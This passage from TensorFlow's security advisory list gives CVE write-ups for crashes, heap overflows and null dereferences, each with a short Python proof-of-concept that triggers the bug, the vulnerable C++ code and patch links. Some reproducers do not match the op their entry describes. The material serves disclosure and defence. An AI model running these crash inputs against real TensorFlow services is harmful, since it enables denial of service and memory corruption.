    selected.resize(output_size, 0);
    // ...
  }
```

However, as `std::vector::resize` takes the size argument as a `size_t` and
`output_size` is an `int`, there is an implicit conversion to usigned. If the
attacker supplies a negative value, this conversion results in a crash.

A similar issue occurs in `CombinedNonMaxSuppression`:

```python
import tensorflow as tf

tf.raw_ops.NonMaxSuppressionV5(
  boxes=[[[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]],[[0.1,0.1,0.1,0.1],[0.2,0.2,0.2,0.2],[0.3,0.3,0.3,0.3]]]],
  scores=[[[1.0,2.0,3.0],[1.0,2.0,3.0],[1.0,2.0,3.0]]],
  max_output_size_per_class=-1,
  max_total_size=10,
  iou_threshold=score_threshold=0.5,
  pad_per_class=True,
  clip_boxes=True)
```

### Patches
We have patched the issue in GitHub commit
[3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d](https://github.com/tensorflow/tensorflow/commit/3a7362750d5c372420aa8f0caf7bf5b5c3d0f52d)
and commit
[b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58](https://github.com/tensorflow/tensorflow/commit/b5cdbf12ffcaaffecf98f22a6be5a64bb96e4f58).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-190: Incomplete validation of shapes in multiple TF ops

### CVE Number
CVE-2021-41206

### Impact
Several TensorFlow operations are missing validation for the shapes of the tensor arguments involved in the call. Depending on the API, this can result in undefined behavior and segfault or `CHECK`-fail related crashes but in some scenarios writes and reads from heap populated arrays are also possible.

We have discovered these issues internally via tooling while working on improving/testing GPU op determinism. As such, we don't have reproducers and there will be multiple fixes for these issues.

### Patches
We have patched the issue in GitHub commits [68422b215e618df5ad375bcdc6d2052e9fd3080a](https://github.com/tensorflow/tensorflow/commit/68422b215e618df5ad375bcdc6d2052e9fd3080a), [4d74d8a00b07441cba090a02e0dd9ed385145bf4](https://github.com/tensorflow/tensorflow/commit/4d74d8a00b07441cba090a02e0dd9ed385145bf4), [579261dcd446385831fe4f7457d802a59685121d](https://github.com/tensorflow/tensorflow/commit/579261dcd446385831fe4f7457d802a59685121d), [da4aad5946be30e5f049920fa076e1f7ef021261](https://github.com/tensorflow/tensorflow/commit/da4aad5946be30e5f049920fa076e1f7ef021261), [4dddb2fd0b01cdd196101afbba6518658a2c9e07](https://github.com/tensorflow/tensorflow/commit/4dddb2fd0b01cdd196101afbba6518658a2c9e07), and [e7f497570abb6b4ae5af4970620cd880e4c0c904](https://github.com/tensorflow/tensorflow/commit/e7f497570abb6b4ae5af4970620cd880e4c0c904).

These fixes will be included in TensorFlow 2.7.0. We will also cherrypick these commits on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.
## TFSA-2021-165: Segfault on strings tensors with mismatched dimensions, due to Go code

### CVE Number
CVE-2021-37692

### Impact
Under certain conditions, Go code can trigger a segfault in string deallocation.

For string tensors, `C.TF_TString_Dealloc` is called during garbage collection within a finalizer function.  However, tensor structure isn't checked until encoding to avoid a performance penalty.  The current method for dealloc assumes that encoding succeeded, but segfaults when a string tensor is garbage collected whose encoding failed (e.g., due to mismatched dimensions).

To fix this, the call to set the finalizer function is deferred until `NewTensor` returns and, if encoding failed for a string tensor, deallocs are determined based on bytes written.

### Patches
We have patched the issue in GitHub commit [8721ba96e5760c229217b594f6d2ba332beedf22](https://github.com/tensorflow/tensorflow/commit/8721ba96e5760c229217b594f6d2ba332beedf22) (merging [#50508](https://github.com/tensorflow/tensorflow/pull/50508)).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this commit on TensorFlow 2.5.1, which is the other affected version.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported externally via a [fixing PR](https://github.com/tensorflow/tensorflow/pull/50508).
## TFSA-2021-073: Division by zero in padding computation in TFLite

### CVE Number
CVE-2021-29585

### Impact
The TFLite computation for size of output after padding,
[`ComputeOutSize`](https://github.com/tensorflow/tensorflow/blob/0c9692ae7b1671c983569e5d3de5565843d500cf/tensorflow/lite/kernels/padding.h#L43-L55),
does not check that the `stride` argument is not 0 before doing the division.

```cc
inline int ComputeOutSize(TfLitePadding padding, int image_size,
                          int filter_size, int stride, int dilation_rate = 1) {
  int effective_filter_size = (filter_size - 1) * dilation_rate + 1;
  switch (padding) {
    case kTfLitePaddingSame:
      return (image_size + stride - 1) / stride;
    case kTfLitePaddingValid:
      return (image_size + stride - effective_filter_size) / stride;
    default:
      return 0;
  }
}
```

Users can craft special models such that `ComputeOutSize` is called with
`stride` set to 0.

### Patches
We have patched the issue in GitHub commit
[49847ae69a4e1a97ae7f2db5e217c77721e37948](https://github.com/tensorflow/tensorflow/commit/49847ae69a4e1a97ae7f2db5e217c77721e37948).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-122: Incorrect validation of `SaveV2` inputs

### CVE Number
CVE-2021-37648

### Impact
The code for `tf.raw_ops.SaveV2` does not properly validate the inputs and an
attacker can trigger a null pointer dereference:

```python
import tensorflow as tf

tf.raw_ops.SaveV2(
  prefix=['tensorflow'],
  tensor_name=['v'],
  shape_and_slices=[],
  tensors=[1,2,3])
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/save_restore_v2_ops.cc)
uses `ValidateInputs` to  check that the input arguments are valid. This
validation would have caught the illegal state represented by the reproducer
above.

However, the validation uses `OP_REQUIRES` which translates to setting the
`Status` object of the current `OpKernelContext` to an error status, followed by
an empty `return` statement which just terminates the execution of the function
it is present in. However, this does not mean that the kernel execution is
finalized: instead, execution continues from the next line in `Compute` that
follows the call to `ValidateInputs`. This is equivalent to lacking the
validation.

### Patches
We have patched the issue in GitHub commit
[9728c60e136912a12d99ca56e106b7cce7af5986](https://github.com/tensorflow/tensorflow/commit/9728c60e136912a12d99ca56e106b7cce7af5986).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-019: Heap buffer overflow caused by rounding

### CVE Number
CVE-2021-29529

### Impact
An attacker can trigger a heap buffer overflow in
`tf.raw_ops.QuantizedResizeBilinear` by manipulating input values so that float
rounding results in off-by-one error in accessing image elements:

```python
import tensorflow as tf

l = [256, 328, 361, 17, 361, 361, 361, 361, 361, 361, 361, 361, 361, 361, 384]
images = tf.constant(l, shape=[1, 1, 15, 1], dtype=tf.qint32)
size = tf.constant([12, 6], shape=[2], dtype=tf.int32)
min = tf.constant(80.22522735595703)
max = tf.constant(80.39215850830078)

tf.raw_ops.QuantizedResizeBilinear(images=images, size=size, min=min, max=max,
                                   align_corners=True, half_pixel_centers=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/44b7f486c0143f68b56c34e2d01e146ee445134a/tensorflow/core/kernels/quantized_resize_bilinear_op.cc#L62-L66)
computes two integers (representing the upper and lower bounds for
interpolation) by ceiling and flooring a floating point value:

```cc
const float in_f = std::floor(in);
interpolation->lower[i] = std::max(static_cast<int64>(in_f), static_cast<int64>(0));
interpolation->upper[i] = std::min(static_cast<int64>(std::ceil(in)), in_size - 1);
```

For some values of `in`, `interpolation->upper[i]` might be smaller than
`interpolation->lower[i]`. This is an issue if `interpolation->upper[i]` is
capped at `in_size-1` as it means that `interpolation->lower[i]` points outside
of the image. Then, [in the interpolation
code](https://github.com/tensorflow/tensorflow/blob/44b7f486c0143f68b56c34e2d01e146ee445134a/tensorflow/core/kernels/quantized_resize_bilinear_op.cc#L245-L264),
this would result in heap buffer overflow:

```cc
template <int RESOLUTION, typename T, typename T_SCALE, typename T_CALC>
inline void OutputLerpForChannels(const InterpolationCache<T_SCALE>& xs,
                                  const int64 x, const T_SCALE ys_ilerp,
                                  const int channels, const float min,
                                  const float max, const T* ys_input_lower_ptr,
                                  const T* ys_input_upper_ptr,
                                  T* output_y_ptr) {
  const int64 xs_lower = xs.lower[x];
  ...
  for (int c = 0; c < channels; ++c) {
    const T top_left = ys_input_lower_ptr[xs_lower + c];
    ...
  }
}
```

For the other cases where `interpolation->upper[i]` is smaller than
`interpolation->lower[i]`, we can set them to be equal without affecting the
output.

### Patches
We have patched the issue in GitHub commit
[f851613f8f0fb0c838d160ced13c134f778e3ce7](https://github.com/tensorflow/tensorflow/commit/f851613f8f0fb0c838d160ced13c134f778e3ce7).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu X-Team.
## TFSA-2021-054: Heap OOB access in `Dilation2DBackpropInput`

### CVE Number
CVE-2021-29566

### Impact
An attacker can write outside the bounds of heap allocated arrays by passing
invalid arguments to `tf.raw_ops.Dilation2DBackpropInput`:

```python
import tensorflow as tf

input_tensor = tf.constant([1.1] * 81, shape=[3, 3, 3, 3], dtype=tf.float32)
filter = tf.constant([], shape=[0, 0, 3], dtype=tf.float32)
out_backprop = tf.constant([1.1] * 1062, shape=[3, 2, 59, 3], dtype=tf.float32)

tf.raw_ops.Dilation2DBackpropInput(
  input=input_tensor, filter=filter, out_backprop=out_backprop,
  strides=[1, 40, 1, 1], rates=[1, 56, 56, 1], padding='VALID')
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/afd954e65f15aea4d438d0a219136fc4a63a573d/tensorflow/core/kernels/dilation_ops.cc#L321-L322)
does not validate before writing to the output array.

```cc
in_backprop(b, h_in_max, w_in_max, d) += out_backprop(b, h_out, w_out, d);
```

The values for `h_out` and `w_out` are guaranteed to be in range for
`out_backprop` (as they are loop indices bounded by the size of the array).
However, there are no similar guarantees relating `h_in_max`/`w_in_max` and
`in_backprop`.

### Patches
We have patched the issue in GitHub commit
[3f6fe4dfef6f57e768260b48166c27d148f3015f](https://github.com/tensorflow/tensorflow/commit/3f6fe4dfef6f57e768260b48166c27d148f3015f).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-012: `CHECK`-fail in `AddManySparseToTensorsMap`

### CVE Number
CVE-2021-29523

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
`tf.raw_ops.AddManySparseToTensorsMap`:

```python
import tensorflow as tf
import numpy as np

sparse_indices = tf.constant(530, shape=[1, 1], dtype=tf.int64)
sparse_values = tf.ones([1], dtype=tf.int64)

shape = tf.Variable(tf.ones([55], dtype=tf.int64))
shape[:8].assign(np.array([855, 901, 429, 892, 892, 852, 93, 96], dtype=np.int64))

tf.raw_ops.AddManySparseToTensorsMap(sparse_indices=sparse_indices,
                    sparse_values=sparse_values,
                    sparse_shape=shape)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/kernels/sparse_tensors_map_ops.cc#L257)
takes the values specified in `sparse_shape` as dimensions for the output shape:

```cc
    TensorShape tensor_input_shape(input_shape->vec<int64>());
```

The [`TensorShape`
constructor](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L183-L188)
uses a `CHECK` operation which triggers when
[`InitDims`](https://github.com/tensorflow/tensorflow/blob/6f9896890c4c703ae0a0845394086e2e1e523299/tensorflow/core/framework/tensor_shape.cc#L212-L296)
returns a non-OK status.

```cc
template <class Shape>
TensorShapeBase<Shape>::TensorShapeBase(gtl::ArraySlice<int64> dim_sizes) {
  set_tag(REP16);
  set_data_type(DT_INVALID);
  TF_CHECK_OK(InitDims(dim_sizes));
}
```

In our scenario, this occurs when adding a dimension from the argument results
in overflow:

```cc
template <class Shape>
Status TensorShapeBase<Shape>::InitDims(gtl::ArraySlice<int64> dim_sizes) {
  ...
  Status status = Status::OK();
  for (int64 s : dim_sizes) {
    status.Update(AddDimWithStatus(internal::SubtleMustCopy(s)));
    if (!status.ok()) {
      return status;
    }
  }
}

template <class Shape>
Status TensorShapeBase<Shape>::AddDimWithStatus(int64 size) {
  ...
  int64 new_num_elements;
  if (kIsPartial && (num_elements() < 0 || size < 0)) {
    new_num_elements = -1;
  } else {
    new_num_elements = MultiplyWithoutOverflow(num_elements(), size);
    if (TF_PREDICT_FALSE(new_num_elements < 0)) {
        return errors::Internal("Encountered overflow when multiplying ",
                                num_elements(), " with ", size,
                                ", result: ", new_num_elements);
      }
  }
  ...
}
```

This is a legacy implementation of the constructor and operations should
use `BuildTensorShapeBase` or `AddDimWithStatus` to prevent `CHECK`-failures in
the presence of overflows.

### Patches
We have patched the issue in GitHub commit
[69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c](https://github.com/tensorflow/tensorflow/commit/69c68ecbb24dff3fa0e46da0d16c821a2dd22d7c).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
## TFSA-2021-186: FPE in `ParallelConcat`

### CVE Number
CVE-2021-41207

### Impact
The [implementation of `ParallelConcat`](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/kernels/inplace_ops.cc#L72-L97) misses some input validation and can produce a division by 0:

```python
import tensorflow as tf

@tf.function
def test():
  y = tf.raw_ops.ParallelConcat(values=[['tf']],shape=0)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [f2c3931113eaafe9ef558faaddd48e00a6606235](https://github.com/tensorflow/tensorflow/commit/f2c3931113eaafe9ef558faaddd48e00a6606235).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
## TFSA-2020-003: Denial of service from TFLite implementation of segment sum

### CVE Number
CVE-2020-15213

### Impact
In TensorFlow Lite models using segment sum can trigger a denial of service by
causing an out of memory allocation in the implementation of segment sum. Since
code uses the last element of the tensor holding them to determine the
dimensionality of output tensor, attackers can use a very large value to trigger
a [large
allocation](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/lite/kernels/segment_sum.cc#L39-L48):
```cc
  if (segment_id_size > 0) {
    max_index = segment_ids->data.i32[segment_id_size - 1];
  }
  TfLiteIntArray* output_shape = TfLiteIntArrayCreate(NumDimensions(data));
  output_shape->data[0] = max_index + 1;
  for (int i = 1; i < data_rank; ++i) {
    output_shape->data[i] = data->dims->data[i];
  }
  return context->ResizeTensor(context, output, output_shape);
```

### Vulnerable Versions
TensorFlow 2.2.0, 2.3.0.

### Patches
We have patched the issue in
[204945b](https://github.com/tensorflow/tensorflow/commit/204945b) and will
release patch releases for all affected versions.

We recommend users to upgrade to TensorFlow 2.2.1, or 2.3.1.

### Workarounds
A potential workaround would be to add a custom `Verifier` to limit the maximum
value in the segment ids tensor. This only handles the case when the segment ids
are stored statically in the model, but a similar validation could be done if
the segment ids are generated at runtime, between inference steps.

However, if the segment ids are generated as outputs of a tensor during
inference steps, then there are no possible workaround and users are advised to
upgrade to patched code.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been discovered through a variant analysis of [a
vulnerability reported by members of the Aivul Team from Qihoo
360](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/security/advisory/tfsa-2020-002.md).
## TFSA-2021-105: Crash in `tf.transpose` with complex inputs

### CVE Number
CVE-2021-29618

### Impact
Passing a complex argument to `tf.transpose` at the same time as passing
`conjugate=True` argument results in a crash:

```python
import tensorflow as tf
tf.transpose(conjugate=True, a=complex(1))
```

### Patches
We have received a patch for the issue in GitHub commit
[1dc6a7ce6e0b3e27a7ae650bfc05b195ca793f88](https://github.com/tensorflow/tensorflow/commit/1dc6a7ce6e0b3e27a7ae650bfc05b195ca793f88).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported in
[#42105](https://github.com/tensorflow/issues/42105) and fixed in
[#46973](https://github.com/tensorflow/issues/46973).
## TFSA-2021-100: Heap buffer overflow in `BandedTriangularSolve`

### CVE Number
CVE-2021-29612

### Impact
An attacker can trigger a heap buffer overflow in Eigen implementation of
`tf.raw_ops.BandedTriangularSolve`:

```python
import tensorflow as tf
import numpy as np

matrix_array = np.array([])
matrix_tensor = tf.convert_to_tensor(np.reshape(matrix_array,(0,1)),dtype=tf.float32)
rhs_array = np.array([1,1])
rhs_tensor = tf.convert_to_tensor(np.reshape(rhs_array,(1,2)),dtype=tf.float32)
tf.raw_ops.BandedTriangularSolve(matrix=matrix_tensor,rhs=rhs_tensor)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/eccb7ec454e6617738554a255d77f08e60ee0808/tensorflow/core/kernels/linalg/banded_triangular_solve_op.cc#L269-L278)
calls `ValidateInputTensors` for input validation but fails to validate that the
two tensors are not empty:

```cc
void ValidateInputTensors(OpKernelContext* ctx, const Tensor& in0, const Tensor& in1) {
  OP_REQUIRES(
      ctx, in0.dims() >= 2,
      errors::InvalidArgument("In[0] ndims must be >= 2: ", in0.dims()));

  OP_REQUIRES(
      ctx, in1.dims() >= 2,
      errors::InvalidArgument("In[1] ndims must be >= 2: ", in1.dims()));
}
```

Furthermore, since `OP_REQUIRES` macro only stops execution of current function
after setting `ctx->status()` to a non-OK value, callers of helper functions
that use `OP_REQUIRES` must check value of `ctx->status()` before continuing.
This doesn't happen [in this op's
implementation](https://github.com/tensorflow/tensorflow/blob/eccb7ec454e6617738554a255d77f08e60ee0808/tensorflow/core/kernels/linalg/banded_triangular_solve_op.cc#L219),
hence the validation that is present is also not effective.

### Patches
We have patched the issue in GitHub commit
[ba6822bd7b7324ba201a28b2f278c29a98edbef2](https://github.com/tensorflow/tensorflow/commit/ba6822bd7b7324ba201a28b2f278c29a98edbef2)
followed by GitHub commit
[0ab290774f91a23bebe30a358fde4e53ab4876a0](https://github.com/tensorflow/tensorflow/commit/0ab290774f91a23bebe30a358fde4e53ab4876a0).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ye Zhang and Yakun Zhang of Baidu
X-Team.
## TFSA-2021-136: Reference binding to nullptr in boosted trees

### CVE Number
CVE-2021-37662

### Impact
An attacker can generate undefined behavior via a reference binding to nullptr
in `BoostedTreesCalculateBestGainsPerFeature`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestGainsPerFeature(
  node_id_range=[],
  stats_summary_list=[[1,2,3]],
  l1=[1.0],
  l2=[1.0],
  tree_complexity =[1.0],
  min_node_weight =[1.17],
  max_splits=5)
```

A similar attack can occur in `BoostedTreesCalculateBestFeatureSplitV2`:

```python
import tensorflow as tf

tf.raw_ops.BoostedTreesCalculateBestFeatureSplitV2(
  node_id_range=[],
  stats_summaries_list=[[1,2,3]],
  split_types=[''],
  candidate_feature_ids=[1,2,3,4],
  l1=[1],
  l2=[1],
  tree_complexity=[1.0],
  min_node_weight=[1.17],
  logits_dimension=5)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/boosted_trees/stats_ops.cc)
does not validate the input values.

### Patches
We have patched the issue in GitHub commit
[9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad](https://github.com/tensorflow/tensorflow/commit/9c87c32c710d0b5b53dc6fd3bfde4046e1f7a5ad)
and in commit.
[429f009d2b2c09028647dd4bb7b3f6f414bbaad7](https://github.com/tensorflow/tensorflow/commit/429f009d2b2c09028647dd4bb7b3f6f414bbaad7).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-092: Integer overflow in TFLite memory allocation

### CVE Number
CVE-2021-29605

### Impact
The TFLite code for allocating `TFLiteIntArray`s is [vulnerable to an integer
overflow
issue](https://github.com/tensorflow/tensorflow/blob/4ceffae632721e52bf3501b736e4fe9d1221cdfa/tensorflow/lite/c/common.c#L24-L27):

```cc
int TfLiteIntArrayGetSizeInBytes(int size) {
  static TfLiteIntArray dummy;
  return sizeof(dummy) + sizeof(dummy.data[0]) * size;
}
```

An attacker can craft a model such that the `size` multiplier is so large that
the return value overflows the `int` datatype and becomes negative. In turn,
this results in [invalid value being given to
`malloc`](https://github.com/tensorflow/tensorflow/blob/4ceffae632721e52bf3501b736e4fe9d1221cdfa/tensorflow/lite/c/common.c#L47-L52):

```cc
TfLiteIntArray* TfLiteIntArrayCreate(int size) {
  TfLiteIntArray* ret = (TfLiteIntArray*)malloc(TfLiteIntArrayGetSizeInBytes(size));
  ret->size = size;
  return ret;
}
```

In this case, `ret->size` would dereference an invalid pointer.

### Patches
We have patched the issue in GitHub commit
[7c8cc4ec69cd348e44ad6a2699057ca88faad3e5](https://github.com/tensorflow/tensorflow/commit/7c8cc4ec69cd348e44ad6a2699057ca88faad3e5).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-138: Incomplete validation in `QuantizeV2`

### CVE Number
CVE-2021-37663

### Impact
Due to incomplete validation in `tf.raw_ops.QuantizeV2`, an attacker can trigger
undefined behavior via binding a reference to a null pointer or can access data
outside the bounds of heap allocated arrays:

```python
import tensorflow as tf

tf.raw_ops.QuantizeV2(
  input=[1,2,3],
  min_range=[1,2],
  max_range=[],
  T=tf.qint32,
  mode='SCALED',
  round_mode='HALF_AWAY_FROM_ZERO',
  narrow_range=False,
  axis=1,
  ensure_minimum_range=3)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/84d053187cb80d975ef2b9684d4b61981bca0c41/tensorflow/core/kernels/quantize_op.cc#L59)
has some validation but does not check that `min_range` and `max_range` both
have the same non-zero number of elements. If `axis` is provided (i.e., not
`-1`), then validation should check that it is a value in range for the rank of
`input` tensor and then the lengths of `min_range` and `max_range` inputs match
the `axis` dimension of the `input` tensor.

### Patches
We have patched the issue in GitHub commit
[6da6620efad397c85493b8f8667b821403516708](https://github.com/tensorflow/tensorflow/commit/6da6620efad397c85493b8f8667b821403516708).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2018-006: Crafted Configuration File results in Invalid Memory Access

### CVE Number

CVE-2018-10055

### Issue Description

A maliciously crafted configuration file passed into the TensorFlow XLA compiler
could cause an invalid memory access and/or a heap buffer overflow.

### Impact

A maliciously crafted configuration file could cause TensorFlow to crash or
read from other parts of its process memory.

### Vulnerable Versions

TensorFlow 1.1.0, 1.2.0, 1.2.1, 1.3.0, 1.3.1, 1.4.0, 1.4.1, 1.5.0, 1.5.1, 1.6.0, 1.7.0

### Mitigation

We have patched the vulnerability in GitHub commit
[c89ab82a](https://github.com/tensorflow/tensorflow/commit/c89ab82a82585cdaa90bf4911980e9e845909e78).

If users are loading untrusted configurations in TensorFlow, we encourage users
to apply the patch to upgrade snappy or upgrade the version of TensorFlow they
are currently using.

Additionally, we have released TensorFlow version 1.7.1 to mitigate this
vulnerability.

### Credits

This issue was discovered by the Blade Team of Tencent.
## TFSA-2020-021: Heap buffer overflow in SparseFillEmptyRowsGrad

### CVE Number
CVE-2020-15195

### Impact
The implementation of `SparseFillEmptyRowsGrad` uses a [double indexing
pattern](https://github.com/tensorflow/tensorflow/blob/0e68f4d3295eb0281a517c3662f6698992b7b2cf/tensorflow/core/kernels/sparse_fill_empty_rows_op.cc#L263-L269):
```cc
      d_values(i) = grad_values(reverse_index_map(i));
```

It is possible for `reverse_index_map(i)` to be an index outside of bounds of
`grad_values`, thus resulting in a heap buffer overflow.

### Vulnerable Versions
TensorFlow 1.15.0, 1.15.1, 1.15.2, 1.15.3, 2.0.0, 2.0.1, 2.0.2, 2.1.0, 2.1.1,
2.2.0, 2.3.0.

### Patches
We have patched the issue in
[390611e0d45c5793c7066110af37c8514e6a6c54](https://github.com/tensorflow/tensorflow/commit/390611e0d45c5793c7066110af37c8514e6a6c54)
and will release a patch release for all affected versions.

We recommend users to upgrade to TensorFlow 1.15.4, 2.0.3, 2.1.2, 2.2.1, or
2.3.1.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo
360.
## TFSA-2021-005: Null pointer dereference via invalid Ragged Tensors

### CVE Number
CVE-2021-29516

### Impact
Calling `tf.raw_ops.RaggedTensorToVariant` with arguments specifying an invalid ragged tensor results in a null pointer dereference:

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 56, 56, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 23, 1])
```

```python
import tensorflow as tf

input_tensor = tf.constant([], shape=[2, 2, 2, 2, 0], dtype=tf.float32)
filter_tensor = tf.constant([], shape=[0, 0, 2, 6, 2], dtype=tf.float32)

tf.raw_ops.Conv3D(input=input_tensor, filter=filter_tensor, strides=[1, 56, 39, 34, 1], padding='VALID', data_format='NDHWC', dilations=[1, 1, 1, 1, 1])
```

The implementation of [`RaggedTensorToVariant`
operations](https://github.com/tensorflow/tensorflow/blob/904b3926ed1c6c70380d5313d282d248a776baa1/tensorflow/core/kernels/ragged_tensor_to_variant_op.cc#L39-L40)
does not validate that the ragged tensor argument is non-empty:

```cc
  int ragged_rank = batched_ragged.ragged_rank();
  auto batched_splits_top_vec = batched_ragged.splits(0).vec<SPLIT_TYPE>();
```

Since `batched_ragged` contains no elements, `batched_ragged.splits` is a null vector, thus `batched_ragged.splits(0)` will result in dereferencing `nullptr`.

### Patches
We have patched the issue in GitHub commit
